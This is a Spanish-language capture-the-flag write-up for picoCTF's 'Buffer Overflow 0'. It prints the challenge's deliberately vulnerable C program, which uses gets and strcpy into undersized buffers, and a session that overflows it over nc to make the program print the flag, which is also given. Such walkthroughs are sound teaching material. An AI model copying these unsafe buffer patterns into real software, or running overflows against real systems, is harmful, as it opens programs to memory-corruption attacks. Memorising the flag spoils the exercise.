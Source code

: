 # Buffer Overflow 0

# Descripción
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c). And connect with it using:`nc saturn.picoctf.net 61481`
# Pistas
How can you trigger the flag to print?

If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

Run `man gets` and read the BUGS section. How many characters can the program really read?
# Solución

```bash
adalh4ck1ng-picoctf@webshell:~$ ls
README.txt  vuln  vuln.c
adalh4ck1ng-picoctf@webshell:~$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
adalh4ck1ng-picoctf@webshell:~$ nc saturn.picoctf.net 61481

# Basta solo con agregar mas caracteres de los que la funcion soporta para obtener la bandera
Input: 111111111111111111111111111111111121212
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
```

# Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
